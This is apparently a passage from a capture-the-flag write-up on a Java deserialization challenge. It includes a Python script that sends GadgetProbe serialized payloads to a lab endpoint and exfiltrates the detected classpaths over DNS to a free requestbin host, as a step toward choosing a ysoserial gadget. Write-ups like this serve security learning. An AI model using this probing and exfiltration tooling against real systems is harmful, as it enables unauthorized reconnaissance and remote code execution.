 Base64 encoded serialized Java objects starts with "rO0" that we can observe on the "worm" parameter.

I added this challenge first because it only had 54 solves and few months back I created a fuzzer script specifically for these scenarios which worked perfectly in this case! 

[https://github.com/rayhan0x01/GadgetSmith](https://github.com/rayhan0x01/GadgetSmith)

So, what it does? there's a Python3 script that you can modify to implement an HTTP Request for it to "Fuzz" an endpoint with serialized Java payloads to find which classpaths are available using a DNS ex-filtration technique that does not require BurpSuitePro collaborator and utilizes free DNSBins. 

Now why do we need to know classpaths or why even use it? First of all, if we get a callback, we confirm we have deserialization there. Secondly, if we know which classpath is available we can use matching gadget in &nbsp;`ysoserial`&nbsp; to generate right payload.

I modified the script available on the repo to send the same POST request we saw earlier:

```python
import subprocess, sys, requests

banner = """

Generate GadgetProbe payloads in base64 with free dnsbin (https://requestbin.net/dns)
Usage: python3 GadgetSmith.py wordlist.txt XXXXX.d.requestbin.net

"""

if len(sys.argv) < 2:
	print(banner)
	sys.exit()

wordlist = sys.argv[1]

dnsbin = sys.argv[2]

get_payloads = subprocess.getoutput("java -cp '.:GadgetProbe-1.0-SNAPSHOT-all.jar' gen_payloads.java %s %s" % (wordlist,dnsbin))

payloads = [ x for x in get_payloads.split('\n') if x.startswith('rO0') ]


if not payloads:
	print("[!] Something went wrong while generating payloads!")
	sys.exit()

proxies = {'http':'http://127.0.0.1:8080','https':'http://127.0.0.1:8080'} # burp

session = requests.session()
for payload in payloads:
	burp0_url = "http://138.68.168.137:31483/doLaunch"
	burp0_cookies = {"JSESSIONID": "39483D3A8EF4AA9707B6A875A0913590"}
	burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://138.68.168.137:31483", "Connection": "close", "Referer": "http://138.68.168.137:31483/doLaunch", "Upgrade-Insecure-Requests": "1"}
	burp0_data = {"country": "[REDACTED]", "worm": "%s"% payload}
	session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data,proxies=proxies).text
	print(".",end="")
```
